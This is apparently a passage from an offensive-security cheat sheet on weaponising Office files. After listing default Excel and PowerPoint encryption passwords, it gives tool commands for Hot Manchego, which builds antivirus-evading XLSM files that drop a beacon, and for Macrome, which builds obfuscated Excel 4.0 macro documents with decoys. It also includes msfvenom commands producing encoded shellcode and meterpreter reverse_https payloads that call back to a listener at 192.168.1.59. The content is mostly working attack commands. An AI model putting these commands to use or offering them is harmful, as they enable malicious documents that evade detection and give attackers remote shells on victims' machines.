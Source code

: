 By default, Excel does not set a password when saving a new file. However, some older versions of Excel had a default password that was used if the user did not set a password themselves. The default password was "`VelvetSweatshop`", and it could be used to open any file that did not have a password set.

> If the user has not supplied an encryption password and the document is encrypted, the default encryption choice using the techniques specified in section 2.3 MUST be the following password: "`\x2f\x30\x31\x48\x61\x6e\x6e\x65\x73\x20\x52\x75\x65\x73\x63\x68\x65\x72\x2f\x30\x31`". - [2.4.2.3 Binary Document Write Protection Method 3](https://learn.microsoft.com/en-us/openspecs/office_file_formats/ms-offcrypto/57fc02f0-c1de-4fc6-908f-d146104662f5)

| Product    | Password         | Supported Formats |
|------------|------------------|-------------------|
| Excel      | VelvetSweatshop  | all Excel formats |
| PowerPoint | 01Hannes Ruescher/01 | .pps .ppt     |


## Excel

### XLSM - Hot Manchego 

> When using EPPlus, the creation of the Excel document varied significantly enough that most A/V didn't catch a simple lolbas payload to get a beacon on a target machine.

* https://github.com/FortyNorthSecurity/hot-manchego

```ps1
Generate CS Macro and save it to Windows as vba.txt
PS> New-Item blank.xlsm
PS> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:EPPlus.dll hot-manchego.cs
PS> .\hot-manchego.exe .\blank.xlsm .\vba.txt
```

### XLM - Macrome

> XOR Obfuscation technique will NOT work with VBA macros since VBA is stored in a different stream that will not be encrypted when you password protect the document. This only works for Excel 4.0 macros.

* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-osx-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-linux-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-win-x64.zip

```ps1
# NOTE: The payload cannot contains NULL bytes.

# Default calc
msfvenom -a x86 -b '\x00' --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
msfvenom -a x64 -b '\x00' --platform windows -p windows/x64/exec cmd=calc.exe -e x64/xor -f raw EXITFUNC=thread > popcalc64.bin
# Custom shellcode
msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-86.bin -b '\x00'
msfvenom -p generic/custom PAYLOADFILE=payload64.bin -a x64 --platform windows -e x64/xor_dynamic -f raw -o shellcode-64.bin -b '\x00'
# MSF shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00'  -a x64 --platform windows -e x64/xor_dynamic --platform windows -f raw -o msf64.bin
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00' -a x86 --encoder x86/shikata_ga_nai --platform windows -f raw -o msf86.bin

dotnet Macrome.dll build --decoy-document decoy_document.xls --payload popcalc.bin --payload64-bit popcalc64.bin
dotnet Macrome.dll build --decoy-document decoy_document.xls --payload shellcode-86.bin --payload64-bit shellcode-64.bin
```